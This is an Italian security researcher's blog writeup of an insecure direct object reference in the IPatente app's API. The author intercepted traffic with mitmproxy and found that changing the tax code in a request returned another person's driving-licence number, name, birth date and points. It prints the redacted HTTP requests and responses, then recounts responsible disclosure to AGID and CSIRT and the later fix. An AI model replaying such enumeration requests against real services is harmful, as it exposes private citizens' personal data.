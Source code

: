 ```yaml
---
title: 'Writeup PortaleDelAutomobilista'
date: '2021-04-07'
---
```


Durante uno dei primi mesi di pandemia del 2020 mentre "seguivo" la didattica a distanza mi era venuta la bella idea di intercettare il traffico http dell'app IPatente, *tanto cosa c'era di meglio da fare*.  
In questo "writeup" vi mostro cosa ho trovato e come in 30 secondi avrei potuto ottenere il numero della patente del <s>ex ministro degli interni</s>.

### PROXY
Come da manuale ho avviato un container docker con l'immagine di mitmproxy per avere un ambiente già pronto, nel mentre configuro il mio telefono per reindirizzare tutto il traffico http attraverso il proxy. (Aggiungendo ovviamente la CERTIFICATE AUTHORITY generata da mitmproxy) 

Intercettando le prime richieste mi sarei aspettato dell'SSL pinning, invece la strada era bella liscia per iniziare l'analisi.

### Flow Conversazione Regolare

Si utilizza il CODICEFISCALE_1 per ottenere il **numeroDocumento**.


```http
POST /ipatente/services/saldoPuntiPatente HTTP/1.1
authorization: Bearer XXXXXXX
matricola: XXXXXXX
token: XXXXXXX
Host: www.ilportaledellautomobilista.it
User-Agent: okhttp/3.12.1
Content-Type: application/json

{
    "SaldoPuntiRequest": {
        "codiceFiscale": "CODICEFISCALE_1"
    }
}

HTTP/1.1 200 OK
Date: Fri, 06 Nov 2020 15:59:12 GMT
Server: JBoss-EAP/7
X-Frame-Options: SAMEORIGIN
X-Powered-By: Undertow/1
Content-Type: application/json

{
    "SaldoPuntiResponse": {
        "listSaldi": {
            "saldo": [{
                "documento": {
                    "tipoDocumento": "PAT",
                    "numeroDocumento": "PATENTE_1"
                },
                "descrizioneDocumento": "Patente di Guida",
                "dataScadenza": "DATA_DI_SCADENZA_1",
                "saldoPunti": 21
            }]
        }
}}
```
Il **numeroDocumento** permette di ottenere le seguenti informazioni:
```http
POST /ipatente/services/saldoPuntiPatente HTTP/1.1
authorization: Bearer XXXXXXX
matricola: XXXXXXX
token: XXXXXXX
Host: www.ilportaledellautomobilista.it
User-Agent: okhttp/3.12.1
Content-Type: application/json

{
    "DettaglioPuntiRequest": {
        "documento": {
            "tipoDocumento": "PAT",
            "numeroDocumento": "PATENTE_1"
        },
        "numeroPagina": 0,
        "totRecord": 100
    }
}

HTTP/1.1 200 OK
Date: Fri, 06 Nov 2020 16:04:13 GMT
Server: JBoss-EAP/7
X-Frame-Options: SAMEORIGIN
X-Powered-By: Undertow/1
Content-Type: application/json

{
    "DettaglioPuntiResponse": {
        "dettaglioDocumento": {
            "saldo": {
                "documento": {
                    "tipoDocumento": "PAT",
                    "numeroDocumento": "PATENTE_1"
                },
                "descrizioneDocumento": "Patente di Guida",
                "dataScadenza": "DATA_DI_SCADENZA_1",
                "saldoPunti": 21
            },
            "dataNascita": "DATA_DI_NASCITA_1",
            "nominativo": "NOMINATIVO_1"
        },
        "listMovimenti": {
            "movimento": [{
                "dataVariazionePunteggio": "2019-02-13",
                "puntiEffettiviCredito": 20,
                "descrizioneEvento": "PUNTEGGIO  RILASCIO DOCUMENTO"
            }, {
                "dataVariazionePunteggio": "2020-02-13",
                "puntiEffettiviCredito": 1,
                "descrizioneEvento": "INCR.NEOPAT.ASSENZA VIOL."
            }]
        },
        "countRecord": 2
    }
}
```

### IL CODICE FISCALE L'ARMA DEL DEMONIO
Alla prima richiesta noto che l'unica chiave del oggetto JSON è il "codiceFiscale", da quella momento mi si accese una lampadina ma allo stesso tempo speravo fosse un errore troppo stupido per potersi presentare in questo portale.  
Tutto questo mi ha ricordato il portale dell'ATS di Milano dove con il codice fiscale potevi scoprire se una persona era positiva o meno al COVID.
![Flow conversazione](../images/posts/automobilista/flow.png)

### Mi sbaglio sempre
Avevo una vasta scelta di codici fiscali da provare tra cui quello di mio padre, mio fratello o mia mamma.
Modificato il corpo JSON con il nuovo codice fiscale ho fatto un replay della richiesta e dopo circa 300 millisecondi ecco la risposta, terrificante quanto divertente non ricevo il numero della mia patente ma bensì quello <s>del ex ministro degli interni</s> di mio padre.

### E Ora?
Subito a fare festa! Ho scoperto la mia prima vulnerabilità di un certo rilievo, cosa fare ora?  
Beh prima tutto bisognava riferire la scoperta a mio padre, che ha detta della sua bio di twitter è un "*Programmatore di un certo livello*",  infatti una domanda gli sorse spostanea: "Sei passato da TOR? Hai usato un account senza nessun riferimento alla tua persona? PERCHÈ PROPRIO IL CODICE FISCALE <s>DI UN EX MINISTRO DEGLI INTERNI</s>?"  

Io non ero passato da TOR o VPN varie e avevo pure usato il mio account, e non c'era neanche la necessità di usare il mio perchè bastava un qualsiasi account ex novo senza dati reali.  
Ora panico, questi ci denunciano, lo so come funziona in Italia quando dai fai una roba del genere:

<div align="center">
    <img alt="Battuta che rappresenta i ricercatori informatici" src="../images/posts/automobilista/criminal.jfif" width="300px" height="400px">
</div>

### Il problema
Con lo stesso token di autenticazione ottenuto precedentemente è possibile ricavare informazioni di altre persone cambiando il **codice fiscale** ! \
Il servizio andrà a rispondere con il **numeroDocumento**, data di scadenza e saldo punti collegati al codice fiscale (Primary Key). \
Si tratta evidentemente di una insufficiente validazione delle richieste, che permette al client autenticato di enumerare potenzialmente l’intero dataset.

### La comunicazione
Beh poi si era presentata la fase più complicata, dovevo comunicare questo problema in qualche modo al portaledelautomobilista <s>oppure su twitter</s>. Non sapendo bene cosa fare ho deciso di mandare una mail all'AGID, l'agenzia dell'italia digitale che mi ha subito inoltrato la mail allo CSIRT, da li il silenzio per circa 14 giorni.
La vulnerabilità persisteva e io ero sempre più tentato di fare un post su twitter, ma visto che sono responsabile ho risegnalato il problema questa volta direttamente allo CSIRT.  
***ALTRO SILENZIO PER 16 GIORNI***  
Dopo altri estenuanti giorni, con il dito pronto a mandare un tweet con il numero della patente di quella persona lì ecco, ho ricevuto la risposta dallo CSIRT dove mi confermavano l'attivazione del *Dicastero di riferimento*, cito la mail, "*si rende noto che questo CSIRT ha attivato il Dicastero di riferimento, il quale è stato puntualmente reso edotto dei contenuti della segnalazione pervenuta dalla Signoria Vostra).*".

### La fine
Da li a poco la falla è stata chiusa, il mondo era chiaramente diventato un posto migliore grazie a me.

<s>MI ASPETTAVO ALMENO UN GRAZIE E ANCHE DEI SOLDI MA NIENTE DI TUTTO QUESTO.</s>


### Stato report
6/11/2020: Segnalazione all'AGID  
6/11/2020: Agid inoltra allo CSIRT  
20/11/2020: Risegnalazione direttamente allo CSIRT  
6/12/2020: Richiesta aggiornamenti dallo CSIRT  
11/12/2020: Risposta dallo CSIRT  
??/12/2020: Falla patchata  